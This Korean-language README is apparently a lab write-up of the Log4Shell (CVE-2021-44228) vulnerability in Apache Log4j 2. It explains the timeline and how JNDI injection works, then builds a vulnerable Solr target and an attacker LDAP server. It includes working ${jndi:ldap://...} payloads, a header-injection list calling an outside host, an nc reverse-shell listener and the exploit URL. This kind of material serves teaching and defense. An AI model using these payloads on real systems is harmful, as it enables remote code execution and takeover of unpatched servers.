

# CVE-2021-44228
Apache Log4j 2의 lookup 기능을 이용한 JNDI 인젝션(a.k.a. Log4Shell)
> [임근오 (@gngn-dev)](https://github.com/gngn-dev)

## 면책사항 (Disclaimer)
Use only for educational purpose.
오직 교육용 목적 사용만 가능합니다.
## Source and Reference

original (english) : https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.md

original (chinese) : https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md

Original Document References:
- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

New Reference
- https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
- https://www.theregister.com/2021/12/23/alibaba_cloud_in_trouble_with/
- https://www.igloo.co.kr/security-information/apache-log4j-%EC%B7%A8%EC%95%BD%EC%A0%90-%EB%B6%84%EC%84%9D-%EB%B0%8F-%EB%8C%80%EC%9D%91%EB%B0%A9%EC%95%88/
- https://ko.wikipedia.org/wiki/JNDI
- https://news.sophos.com/en-us/2021/12/12/log4shell-hell-anatomy-of-an-exploit-outbreak/
- https://www.youtube.com/watch?v=kwS3twdVsko
- https://www.samsungsds.com/kr/insights/ldap.html

## Apache Log4j 2 소개

Apache Log4j 2는 Log4j 1.x에 비해 상당한 개선점을 제공하며 Logback 아키텍처 고유의 몇 가지 문제를 해결하면서 Logback에서 사용할 수 있는 많은 개선점을 제공하는 Log4j의 업그레이드 버전입니다.

## Log4Shell 0-day RCE 사건 타임라인

2013년 09월 21일, Apache Log4j 2.0-beta9에 JNDI Injection을 유발하는 JNDILookup plugin(LOG4J2-313)기능이 추가됩니다.
- https://blogs.apache.org/logging/entry/apache_log4j_2_0_beta9

2021년 11월 24일, 알리바바 크라우드 시큐리티 팀(Alibaba Cloud Security Team)의 첸 자오준(陈兆军, Chen Zhaojun)이 취약점을 발견했습니다.
theregister에 따르면, 이 날 Apache 재단에 보고된 것으로 파악된다고 전했습니다. (Original : `We know that the bug was reported to the Apache Foundation on November 24th.`)

이후 2021년 11월 30일, 해당 문제를 수정하는 pull request가 올라왔습니다.
- https://github.com/apache/logging-log4j2/pull/608

CloudFlare 최고경영자인 매튜 프린스(Matthew Prince)에 따르면,
2021년 12월 1일 04:36:50 UTC부터 Log4j exploit이 사용됐다는 증거를 발견했다고 합니다.
(Original tweet : `Earliest evidence we’ve found so far of #Log4J exploit is 2021-12-01 04:36:50 UTC. That suggests it was in the wild at least 9 days before publicly disclosed. However, don’t see evidence of mass exploitation until after public disclosure.`)
- https://twitter.com/eastdakota/status/1469800951351427073

이후 2021년 12월 9일, 한 유저의 트윗이 올라옴으로서 본격적으로 소식이 퍼지기 시작했습니다.
- (삭제됨) https://twitter.com/P0rZ9/status/1468949890571337731
- (아카이브됨) https://web.archive.org/web/20211209230040/https://twitter.com/P0rZ9/status/1468949890571337731
theregister에 따르면, 이 트윗은 아파치 재단이 패치를 발표하기 12시간 전에 공개된 것으로 알려졌습니다. (Original: `Another piece of evidence, a since-deleted tweet from an account using the handle @P0rZ9, has been dated as debuting a dozen hours before the Apache Foundation issued its patch on December 10th.`)

## JNDI란?

JNDI(Java Naming and Directory Interface)는 Java프로그램이 디렉토리를 통해 데이터(Java 객체 형태)를 찾을 수 있도록 하는 디렉토리 서비스입니다.

이 때, LDAP, RMI, DNS 등과 같은 프로토콜을 이용할 수 있습니다.


- Picture 1. JNDI architecture (Oracle 제공)

예시로, `ldap://localhost:389/o=JNDITutorial` 라는 구문을 통해 LDAP 서버에서 JNDITutorial 오브젝트를 찾아 속성을 읽어올 수 있습니다.

## LDAP란?

삼성SDS는 LDAP(Lightweight Directory Access Protocol)에 대해 "네트워크상에서 조직이나 개인, 파일, 디바이스 등을 찾아볼 수 있게 해주는 소프트웨어 프로토콜"이라고 정의하고 있습니다.

## JNDI Injection

JNDI는 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견하고 참고하기 위한 자바 API입니다.
이 때, Log4j가 지원하는 JNDI 기능은 디렉터리 서비스를 통해 가져 올 객체의 이름(name)을 제한하지 않았습니다. 'ldap:'과 같은 일부 프로토콜은 안전하지 않거나 원격 코드 실행을 허용합니다.

Log4j의 구문(syntax) 중에 `${prefix:name}` 꼴로 prefix를 lookup 해서 name을 가져오는 기능이 존재합니다.
기본적으로 JNDI Lookup 시 key에 접두사(prefix)로 `java:comp/env/`가 붙습니다. 하지만, key 값에 colon(":")이 포함되면 접두사(prefix)는 추가되지 않습니다.
- `${prefix:name}` 꼴의 구문 목록: https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution
- JNDI Lookup 기능 설명: https://logging.apache.org/log4j/2.3.x/manual/lookups.html#JndiLookup

`${jndi:ldap://example.com/exploit}` 꼴의 문자열을 이용하게 되면 JNDI를 lookup 해서 `ldap://example.com/exploit`을 가져옵니다. 이 때, 임의 코드를 원격에서 실행시킬 수 있습니다. (RCE, remote code execution)


- Picture 2. How the Log4J exploit works (SOPHOS labs 제공)

SOPHOS labs는 아래와 같이 GET method request 시 header 부분을 조작해 JNDI Injection을 할 수도 있다고 얘기합니다.
```
referer=${jndi:ldap://[redacted].interact.sh},
x-http-host-override=${jndi:ldap://[redacted].interact.sh},
true-client-ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-port=443,
x-client-ip=${jndi:ldap://[redacted].interact.sh},
cf-connecting_ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-host=${jndi:ldap://[redacted].interact.sh},
contact=${jndi:ldap://[redacted].interact.sh},
host=[redacted].com,
from=${jndi:ldap://[redacted].interact.sh},
cache-control=no-transform,
x-forwarded-proto=https,
accept-language=en,
client-ip=${jndi:ldap://[redacted].interact.sh},
x-forwarded-for=${jndi:ldap://[redacted].interact.sh},
x-originating-ip=${jndi:ldap://[redacted].interact.sh},
x-host=${jndi:ldap://[redacted].interact.sh},
forwarded=${jndi:ldap://[redacted].interact.sh},
accept=*/*,
x-real-ip=${jndi:ldap://[redacted].interact.sh},
```


- Picture 3. LDAP을 이용한 CVE-2021-44228 취약점 공격 구성도 (Radware 제공, 이글루코퍼레이션 번역)

## 피해자 서버 구축 - ver. vulhub original

Apache Log4j 2는 특정 웹 서비스가 아니라 서드파티 라이브러리(third-party library)일 뿐입니다.
따라서 Log4j 2에 의존하는 애플리케이션을 사용하여 이 취약성을 이용하는 방법을 시연할 수 있습니다.

다음 명령을 실행하여 Log4j 2.14.1을 사용하는 Apache Solr 8.11.0을 시작합니다.

```
docker compose up -d
```

서버를 시작하고, Host OS에서 `localhost:8983` 을 열면 Apache Solr의 관리자 페이지를 확인할 수 있습니다.

## 익스플로잇 - ver. vulhub original, using DNSLog

간단하게, 이 `${jndi:ldap://test.${java:version}.example.com}` 페이로드를 action parameter에 넣어보세요. 그러면 JNDI query를 트리거할 수 있습니다.
예시: `http://localhost:8983/solr/admin/cores?action=${jndi:ldap://test.${java:version}.[REDACTED].ipv6.1433.eu.org}`

- `[redacted]`는 정보를 가린 것일 뿐입니다.
- `[subdomain].ipv6.1433.eu.org` 은 DNS 로그를 제공하는 `https://dig.pm/` 사이트에서 제공받았습니다. 이러한 DNS 로그를 제공하는 다른 사이트를 찾고 싶으면 Google에 `dnslog` 또는 `dnslog platform`을 검색해주세요.

예시와 같이 접속합니다.


아래와 같이 DNS 로그에 쿼리가 표시됩니다.


## 공격자 서버 구축 - LDAP Server

- Original PoC code: https://github.com/kozmer/log4j-shell-poc/tree/main

서버 주소 (--userip) : 10.0.2.15
웹 서버 포트 (--webport) : 8000 (8000)
LDAP 서버 포트 : 1389 (1389)

`entrypoint`에 있는 명령어들은 docker start를 할 때마다 계속 실행됩니다.
이를 감안해 명령어 일부를 충돌이 발생하지 않게끔 조정하였습니다.

또한, 원본 PoC 코드에서는 OracleJDK를 이용합니다.
이 OracleJDK는 배포하는 측면에서 어렵습니다.
따라서, 최대한 버전이 비슷한 OpenJDK를 테스트 후 교체하였습니다.

docker_attacker-ldap-server 폴더의 `docker-compose.yml` 파일을 Host PC (Docker를 돌리는 PC 또는 Virtual Machine)에 저장합니다.
각자의 사정에 맞춰 `docker-compose.yml` 파일 내용에 있는 서버 주소(`10.0.2.15`)를 다른 주소로 수정해도 됩니다.

그리고 다음 명령을 실행하여 공격자의 LDAP 서버를 시작합니다.

```
docker compose up -d
```

docker container 정보를 아래 명령어를 통해 볼 수 있습니다.
```
docker ps -a
```

docker container의 로그 정보를 아래 명령어를 통해 볼 수 있습니다.
```
docker logs <container-id>
```

아래와 같이 로그가 나온다면, 성공한 것입니다.
꼭 `Listening on 0.0.0.0:1389`가 나와야 합니다.


## 공격자 서버 구축 - listening server

리버스 셸 포트 (--lport) : 9001

아래 명령어를 실행해 리버스 셸을 대기합니다.
nc -lvnp 9001

## 익스플로잇 - ver. vulhub original, using LDAP Server


아래 URL로 접속합니다.
`http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.0.2.15:1389/a}`

단, 이 조건이 필요합니다.
- victim-server가 `10.0.2.15:1389/a`에 접속할 수 있어야 합니다.
- attacker-LDAP-server가 위에 적은 대로 잘 설정되고 docker container로 올라가 실행 상태여야 합니다.
- 추가로, 리버스 셸 취득을 위해 별도의 컴퓨터에서 `poc.py`에서 `lport`로 지정한 9001 포트를 리스닝해야 합니다. (자세한 내용은 공격자 서버 구축 - listening server 에서 이미 다뤘습니다.)

접속하게 되면, 아래와 같이 attacker-LDAP-server는 victim-server에게 페이로드가 있는 java class file의 URL을 전달합니다.
그리고 victim-server는 접속하여 lookup합니다.


결과적으로, 아래와 같이 리버스 셸을 취득할 수 있습니다.

